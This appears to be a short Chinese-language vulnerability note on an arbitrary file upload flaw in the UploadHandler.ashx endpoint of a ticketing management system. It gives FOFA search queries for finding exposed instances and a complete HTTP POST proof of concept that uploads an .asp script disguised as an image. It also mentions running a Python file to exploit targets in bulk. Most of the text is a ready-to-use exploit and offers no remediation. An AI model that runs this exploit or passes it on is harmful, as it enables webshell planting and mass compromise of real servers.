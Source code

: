 中成科信票务管理系统 UploadHandler.ashx 任意文件上传漏洞

fofa:
icon_hash="1632964065" || icon_hash="-2142050529"

```
poc:
POST /WeChat/ashx/UploadHandler.ashx HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8


------WebKitFormBoundary7yyQ5XLHOn6WZ6MT
Content-Disposition: form-data; name="file"; filename="1.asp"
Content-Type: image/jpeg

<% Response.Write("Hello, World!") %>
------WebKitFormBoundary7yyQ5XLHOn6WZ6MT--
```
![7a0dd2dd1ffec4f0e3e6ce53b6ac8c6](https://github.com/user-attachments/assets/e5e221e1-8a25-4ab3-a03c-81f74cba8dfa)

![图片](https://github.com/user-attachments/assets/f1fbda2b-ce09-45d6-9cc7-dcbf3e806fc8)


运行py文件进行批量
![图片](https://github.com/user-attachments/assets/17b0e899-51f4-4183-ad1e-59001bdee27b)




